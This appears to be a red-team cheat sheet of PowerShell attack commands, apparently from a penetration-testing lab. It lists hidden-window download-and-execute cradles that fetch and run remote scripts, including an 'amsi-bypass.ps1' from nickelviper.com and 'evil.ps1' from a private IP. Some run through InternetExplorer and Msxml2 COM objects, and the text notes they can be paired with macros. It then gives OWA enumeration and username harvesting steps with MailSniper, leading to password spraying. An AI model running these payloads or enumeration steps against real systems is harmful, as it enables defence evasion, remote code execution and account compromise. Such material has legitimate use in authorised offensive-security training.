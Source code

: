 # Like below

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/amsi-bypass.ps1')) ; IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"

# It can also be combined with Macro

# Powershell Execute cradles
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

powershell.exe -nop -w hidden -c "iex (iwr http://nickelviper.com/amsi-bypass.ps1 -UseBasicParsing)"

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1
');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

PSv3 onwards

iex (iwr 'http://192.168.230.1/evil.ps1')

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

Initial Compromise

    Enumerating OWA to identify valid user and conducting password spraying attack

# Identify the mail server of given domain
$ dig cyberbotic.io
$ ./dnscan.py -d cyberbotic.io -w subdomains-100.txt

# Idenitfy the NETBIOS name of target domain
ps> ipmo C:\Tools\MailSniper\MailSniper.ps1
ps> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

# Extract Employee Names (FirstName LastName) and Prepare Username List
$ ~/namemash.py names.txt > possible.txt

# Validate the username to find active/real usernames
ps> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
